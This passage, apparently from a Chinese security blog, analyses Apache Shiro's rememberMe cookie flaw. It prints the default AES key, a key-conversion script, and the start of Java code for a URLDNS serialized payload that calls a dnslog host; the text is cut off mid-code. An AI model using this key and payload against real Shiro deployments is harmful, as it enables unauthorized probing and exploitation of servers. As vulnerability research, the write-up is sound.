   
接着触发**initNewCipher**方法，这个方法里面用到了**SecretKeySpec**，它是执行密钥操作的，到这里就没必要继续跟了，它到最后还有一次**base64**加密，然后结果就是**rememberMe**字段中的数据了  
  
到这里很清楚的，shiro数据的传输流程是  
  
**登入流程：登入数据 --> 序列化 --> AES加密 --> base64加密 -->rememberMe**  
  
**认证流程 : rememberMe --> base64解密 --> AES解密 -->反序列化 -->登入数据**  
  
  
那么shiro的密钥实际上就是AES加密所使用的密钥，这里实验一下，刚刚在跟代码的时候获取的key的值是下面这个  
```
[-112, -15, -2, 108, -116, 100, -28, 61, -99, 121, -104, -120, -59, -58, -102, 104]
```  
  
然后工具爆破出来的密钥是  
```
kPH+bIxk5D2deZiIxcaaaA==
```  
  
我们使用py脚本对获取到的ascii数组进行base64转换  
```
import base64
  
ascii_array= [-112, -15, -2, 108, -116, 100, -28, 61, -99, 121, -104, -120, -59, -58, -102, 104]
byte_array = [x +256 if x <0 else x for x in ascii_array]
byte_array = bytes(byte_array)
base64_array = base64.b64encode(byte_array)

print(base64_array)
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQXlz8ysDrQ3kTzuyaGXeXlddBxbpu8mQQERaPtibWbeQRT74F49W8sUg/640?wx_fmt=png&from=appmsg "")  
  
执行出来的结果可以看到跟爆破出来的密钥是一样的，其实这个密钥在代码中是可以找到的，可以全局搜索DEFAULT_CIPHER_KEY_BYTES  
关键字在这个文件中org/apache/shiro/mgt/AbstractRememberMeManager.java  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQ9yHDOiay1qbVqTd03n2odoLKSc5bVOt4lJlHeiaRwjuibUeINLwQj3h9g/640?wx_fmt=png&from=appmsg "")  
  
手工漏洞复现  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQlnlDDWnVf3lLPQKwV2tMecso0BbBNq5KMDKwl87klYcXjs65G1GWPA/640?wx_fmt=gif&from=appmsg "")  
  
  
分析完成后，按照我们的思路就要开始构造利用链了  
  
序列化数据构造  
```
package com.example.javademo;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class SerializeDemo {
    public static void main(String[] args) throws Exception {

        HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
        URL url = new URL("http://cwkhb.z9z.top"); //dnslogd地址
       
        //通过反射获取 hashCode方法
        Field hashCode = Class.forName("java.net.URL").getDeclaredField("hashCode");
        hashCode.setAccessible(true);//绕过Java语言权限控制检查的权限
        hashCode.set(url,0xdeadbeef);//hashCode第一次默认为 -1 会触发执行dns payload,所以这里设置为任意值
        objectObjectHashMap.put(url,"time");//这里传入任意值，原因同上

```